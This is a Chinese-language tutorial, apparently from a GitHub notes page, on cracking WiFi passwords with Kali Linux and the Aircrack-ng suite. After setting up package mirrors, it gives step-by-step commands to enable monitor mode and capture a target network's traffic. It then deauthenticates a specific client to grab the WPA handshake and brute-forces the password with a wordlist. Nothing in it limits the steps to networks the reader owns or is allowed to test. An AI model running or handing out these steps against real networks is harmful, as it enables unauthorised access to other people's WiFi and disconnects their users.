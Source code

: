 # No.64 Linux：Kali的Aircrack破解无线网络

## 导读

> 用Kail的Aircrack工具系统破解WiFi密码。

准备工作

```shell
# 用文本编辑器打开sources.list,手动添加更新源
leafpad /etc/apt/sources.list

# 更新源
# 阿里云
deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
# 中科大
# deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
# deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
# 清华大学
# deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
# deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
# 官方源
#deb http://http.kali.org/kali kali-rolling main non-free contrib
#deb-src http://http.kali.org/kali kali-rolling main non-free contrib

# 清除缓存索引
apt-get clean

# 刷新源，获得最近的软件包的列表
apt-get update

# 更新现有的软件包
apt-get upgrade

# 根据依赖关系更新
apt-get dist-upgrade

# 安装rtl8812au网卡驱动
apt-get install realtek-rtl88xxau-dkms

# 安装Wicd网络管理器
apt-get install wicd

# 安装谷歌输入法
apt-get install fcitx fcitx-googlepinyin
```

1.结束进程

```shell
airmon-ng check kill
```

2.载入网卡

```shell
airmon-ng start wlan0（自己的网卡名）
```

3.建立监听

```shell
airodump-ng wlan0
```

4.模拟WiFi 信号

```shell
airodump-ng --ivs -w wifi-passwd --bssid WiFi的MAC -c ch wlan0

# 参数
–ivs ：指定生成文件的格式，这里格式是ivs（比如：abc.ivs）
-w ：指定文件的名称叫什么，这里叫wifi-pass
–bssid ：目标WiFi的MAC地址
-c ：指定我们模拟的WiFi的信道（ch）
```

5.攻击目标

```shell
aireplay-ng -0 20 -a WiFi的MAC -c 客户端的MAC wlan0

# 参数
-0 ：发送工具数据包的数量，这里是20个(无限次攻击改成0 )
-a ：指定目标AP的MAC地址
-c ：指定用户的MAC地址，（正在使用WiFi的客户端的MAC）
```

出现信息（WPA handshake）密码信息抓取成功，抓取到的密码默认保存在主目录中

6.破解密码文件

```shell
aircrack-ng wifi-passwd-01.ivs -w /mnt/hgfs/Share/word.txt

# 参数
wifi-pass-01.ivs ：密码文件
-w ： 指定密码字典
```
